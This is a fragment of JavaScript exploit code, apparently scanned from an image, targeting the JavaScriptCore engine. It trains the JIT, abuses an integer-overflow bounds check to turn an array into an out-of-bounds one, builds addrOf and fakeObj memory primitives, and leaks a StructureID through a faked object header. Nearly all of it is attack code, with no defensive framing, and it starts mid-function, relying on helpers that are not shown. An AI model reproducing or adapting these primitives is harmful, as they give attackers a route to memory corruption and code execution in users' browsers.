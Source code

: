 ```
    n = n | 0;
    if(n<0) {
        let v = (-n) | 0;
        let idx = Math.abs(n);
        if(idx < arr.length) {
            if(idx & 0x80000000) {
                idx += -0x7ffffffd;  // idx = 3;
            }
            if(idx>0) {
                return arr[idx] = 1.04380972981885e-310;  // i2f(0x133700001337);
            }
        }
    }
}

let noCoW = 13.37;
let arr = [noCoW, 2.2, 3.3];
let oobArr = [noCoW, 2.2, 3.3];
let objArr = [{}, {}, {}];

for(let i=0; i<MAX_ITERATIONS; i++) {
    let tmp = -2;
    Foo(arr, tmp);
}

Foo(arr, -2147483648);

print("[+] now oob arr's length: " + hex(oobArr.length));

function AddrOf(obj)
{
    objArr[0] = obj;
    return f2i(oobArr[4]);
}

function FakeObj(addr)
{
    addr = i2f(addr);
    oobArr[4] = addr;
    return objArr[0];
}

// leak entropy by getByVal
function LeakStructureID(obj)
{
    let container = {
        cellHeader: i2obj(0x0108200700000000),
        butterfly: obj
    };

    let fakeObjAddr = AddrOf(container) + 0x10;
    let fakeObj = FakeObj(fakeObjAddr);
    f64[0] = fakeObj[0];

    // repair the fakeObj's jscell
    let structureID = u32[0];
    u32[1] = 0x01082307 - 0x20000;
    container.cellHeader = f64[0];

    return structureID;
}

var arrLeak = new Array(noCoW, 2.2, 3.3, 4.4, 5.5, 6.6, 7.7, 8.8);
```